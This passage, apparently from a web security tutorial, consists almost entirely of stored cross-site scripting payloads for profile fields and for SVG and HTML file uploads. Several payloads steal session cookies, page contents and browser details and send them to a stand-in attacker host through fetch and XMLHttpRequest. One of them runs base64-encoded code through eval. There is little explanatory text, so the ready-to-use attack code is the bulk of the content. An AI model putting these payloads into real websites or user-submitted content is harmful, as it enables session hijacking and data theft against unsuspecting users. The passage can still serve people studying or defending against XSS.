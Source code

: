 **Profile-based Attack Vectors:**

Attackers inject malicious code into user profile fields that are displayed to other users:

```html
<!-- Event-based XSS in profile bio -->
<b onmouseover="alert('Hacked!')">Hover Here</b>

<!-- Image-based XSS payload -->
<img src="x" onerror="eval(atob('YWxlcnQoJ1hTUycpOw=='))" />

<!-- SVG-based persistent payload -->
<svg onload="fetch('http://attacker.com/steal.php?data='+btoa(document.cookie))">
</svg>

<!-- CSS-based attack -->
<style>
body { background: url('javascript:alert("XSS")'); }
</style>
```

**Real-world Profile Exploitation:**

```html
<!-- Comprehensive session hijacking payload -->
<script>
(function() {
    var xhr = new XMLHttpRequest();
    xhr.open('POST', 'http://attacker.com/collect.php', true);
    xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    xhr.send('cookies=' + encodeURIComponent(document.cookie) +
             '&url=' + encodeURIComponent(window.location.href) +
             '&useragent=' + encodeURIComponent(navigator.userAgent));
})();
</script>
```

**File-based Stored XSS:**

**SVG File Uploads:**
```xml
<?xml version="1.0" standalone="no"?>
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
<script>
<![CDATA[
alert('XSS in SVG file');
fetch('http://attacker.com/exfiltrate.php?data=' + btoa(document.body.innerHTML));
]]>
</script>
</svg>
```

**HTML File Uploads:**
```html
<!DOCTYPE html>
<html>
<head><title>Innocent Document</title></head>
<body>
<h1>Important Document</h1>
<script>
// Payload executes when file is viewed
parent.postMessage({
    type: 'xss',
    payload: document.cookie
}, '*');
</script>
</body>
</html>
```
